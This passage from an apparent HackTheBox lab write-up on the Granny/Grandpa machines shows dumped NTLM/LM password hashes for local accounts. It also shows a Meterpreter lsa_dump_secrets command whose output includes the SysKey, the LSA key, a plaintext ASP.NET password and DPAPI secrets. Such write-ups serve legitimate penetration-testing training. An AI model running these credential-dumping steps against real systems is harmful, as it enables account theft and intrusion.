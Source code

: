 ```
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c

```

### **MSF - Meterpreter LSA Secrets Dump**

Meterpréter

```
meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
    m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

```